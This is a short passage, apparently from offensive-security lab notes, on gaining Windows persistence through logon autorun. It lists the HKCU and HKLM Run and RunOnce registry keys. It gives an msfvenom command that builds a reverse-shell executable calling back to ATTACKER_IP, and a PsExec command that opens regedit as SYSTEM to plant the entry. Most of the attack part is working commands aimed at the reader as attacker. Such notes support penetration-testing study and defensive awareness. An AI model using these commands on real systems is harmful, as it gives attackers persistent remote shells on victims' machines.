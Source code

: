 You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

	HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
    HKLM\Software\Microsoft\Windows\CurrentVersion\Run
    HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

Make a malicious executable

	msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=LPORT -f exe -o revshell.exe

Add a new entry pointing with the malicious executable

	PsExec64.exe -i -s regedit